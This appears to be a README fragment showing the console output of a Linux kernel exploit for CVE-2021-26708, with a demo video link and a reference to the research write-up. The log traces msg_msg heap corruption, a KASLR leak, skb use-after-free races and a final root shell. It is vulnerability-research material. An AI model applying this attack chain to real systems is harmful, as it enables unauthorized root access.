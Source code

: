     [+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
    [+] msgrcv returned 6096 bytes
    [+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
    [+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
    [+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
    [+] Calculated kaslr offset: 2a000000

    [+] stage IV: search sprayed skb near sk_memcg...
    [+] checking possible skb location: ffff9125c42fa000
    [+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4640
        kaddr for arb read: ffff9125c42fa030
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
    [+] go racing, show wins: 0 0 20 15 42 11
    [+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
    [+] msgrcv returned 6096 bytes
    [+] found a real skb

    [+] stage V: try to do UAF on skb at ffff9125c42fa000
    [+] skb payload:
        start at 0x7f0d91120004
        skb_shared_info at 0x7f0d91120ec4
        tx_flags 0x8
        destructor_arg 0xffff9125c42fa100
        callback 0xffffffffab64f6d4
        desc 0xffff9125c3fd6e53
    [+] go racing, show wins: 15

    [+] stage VI: repeat UAF on skb at ffff9125c42fa000
    [+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30

    [+] finish as: uid=0, euid=0
    [+] starting the root shell...
    uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Video
-----

<youtube><https://www.youtube.com/watch?v=EC8PFOYOUgU></youtube>

Referens
--------

<https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html>